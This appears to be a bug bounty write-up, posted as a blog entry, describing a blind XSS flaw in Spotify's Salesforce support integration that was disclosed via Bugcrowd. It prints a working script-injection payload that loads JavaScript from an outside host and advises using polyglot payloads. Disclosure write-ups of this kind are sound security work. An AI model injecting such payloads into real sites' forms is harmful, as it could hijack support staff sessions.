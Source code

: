 ```yaml
---
layout: post
title: Blind XSS in Spotify's Salesforce integration
---
```


This is the story of an XSS vulnerability I found in Spotify. It could have allowed me to hijack an employee’s session. But first some background.

**What are blind XSS vulnerabilities?**

Blind XSS vulnerabilities are usually persistent XSS. They occur when the attacker’s input is displayed on a page that he doesn’t have acces to. Like feedback or contact us pages.

**How would I know that my payload worked if I can’t see the page?**

Here comes [xss hunter](https://xsshunter.com/) to the rescue! It’s an awesome web app that Matthew Bryant [@IAmMandatory](https://twitter.com/IAmMandatory) built (kudos to him!). It helps a lot in the process of finding blind XSS vulnerabilities. It has a lot of [features](https://xsshunter.com/features) and it gave me the idea of this vulnerability.


Enough talking. Let’s go to the actual story.

Spotify had a contact page where a user can report problems or send suggestions. I sent a question with a very simple XSS payload.
{%highlight html%}
    "><script src=https://mhmdiaa.xss.ht></script>
{%endhighlight%}
After some minutes I got an email from XSS hunter saying that my payload fired! It fired in a Salesforce domain that Spotify used as a support platform. So I reported to Spotify’s team via bugcrowd and asked them to inform Salesforce about it. They replied that the XSS was on their own custom Salesforce integration and has nothing to do with Salesforce and they rewarded me with $750.


Note: When testing for blind XSS, always use polyglots. You don't know where your payload will land.

I’d like to thank Spotify for the reward and for their cooperation, thank Matthew for the awesome xss hunter and thank bugcrowd for being such a great platform that got many companies into the world of crowd-sourced security.
